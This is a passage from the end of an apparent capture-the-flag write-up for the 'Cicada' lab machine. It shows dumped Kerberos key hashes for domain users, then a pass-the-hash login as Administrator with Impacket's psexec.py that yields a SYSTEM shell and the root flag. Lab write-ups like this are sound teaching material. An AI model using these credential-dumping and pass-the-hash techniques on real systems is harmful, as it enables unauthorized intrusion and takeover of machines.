cicada.htb\david.orelious:aes128-cts-hmac-sha1-96:ce66c04e5fd902b15f5d4c611927c9c2
cicada.htb\david.orelious:des-cbc-md5:83585bc41573897f
cicada.htb\emily.oscars:aes256-cts-hmac-sha1-96:4abe28adc1d16373f4c8db4d9bfd34ea1928aca72cb69362d3d90f69d80c000f
cicada.htb\emily.oscars:aes128-cts-hmac-sha1-96:f98d74d70dfb68b70ddd821edcd6a023
cicada.htb\emily.oscars:des-cbc-md5:fd4a5497d38067cd
[*] Cleaning up... 
```

<br />

Finally, we can apply PassTheHash technique to log into nt authority\system account using `psexec.py`:

<br />

```bash
❯ psexec.py -hashes "aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341" Administrator@cicada.htb
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[*] Requesting shares on cicada.htb.....
[*] Found writable share ADMIN$
[*] Uploading file rAsJSufC.exe
[*] Opening SVCManager on cicada.htb.....
[*] Creating service gEZD on cicada.htb.....
[*] Starting service gEZD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2700]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
3b36cf7d0cde7875756bcaaa8bxxxxxx
```

<br />

Cicada successfully rooted.

Hope you had fun and learned a lot from this writeup.

Keep hacking!❤️❤️

<br />
